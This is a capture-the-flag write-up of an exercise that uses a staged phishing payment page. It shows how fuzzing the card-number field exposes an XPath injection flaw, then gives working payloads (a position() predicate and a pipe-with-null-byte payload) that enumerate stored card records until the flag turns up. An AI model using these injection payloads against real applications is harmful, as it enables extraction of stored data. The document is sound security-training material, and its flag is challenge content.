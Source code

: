 # Fraudulent e-mail

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our
customers have come across this scam.

Identifify all card numbers entered into the fraudulent webpage (we have to report incident and its details to
CSIRT-TCC).

Download [fraudulent e-mail](fraudulent_e-mail.zip) (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

---

The email contains a link
to http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8

Visiting the link brings us to a phishing website. I entered random data.

![](portal.png)

There is a client side validation which prevents you from sending invalid data so either disable JS or use some
HTTP client or proxy.

I started to fuzz the inputs and got lucky with `card-number=1111111111111111aaa`.
Server responded with:

```
<b>Warning</b>:  SimpleXMLElement::xpath(): Invalid predicate in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Looks like an **XPath injection** vulnerability.

Let's try some interesting predicates like `card-number=*`:

```
This card 4556-1329-8889-9614 is broken.
```

Okay, that's promising. The asterisk got evaluated. Now we just need to enumerate all the cards.

My guess is that the database might look something similar to this:

```xml

<cards>
    <card number="8888999977771111" holder-name="John" cvv="889"/>
    <card number="8888999977779566" holder-name="Karl" cvv="859"/>
</cards>
```

And the XPath query something like this:

```
/cards/card[@number= ${args.NUMBER} ]
```

I found two different payloads how to enumerate the cards:

- `a or position()=5` - using `position()` function
    - full query `/cards/card[@number=a or position()=5]`
- `a] | /*/*[5]NULL_BYTE` - using pipe (`|`) operator combine expressions and terminating the payload with `x00`
    - full query `/cards/card[@number=a] | /*/*[5]NULL_BYTE]`

The trick is to keep enumerating the cards until you find the flag. Some cards have missing
numbers so just don't stop and keep enumerating. The correct position is `128`:

```html

<div class="alert alert-danger" role="alert">
    <p>This card <strong>FLAG{0BF0-RREd-vAK3-1Ayi}</strong> is broken.</p>
    <p>Please enter <strong>your another card number</strong>!</p>
</div>
```
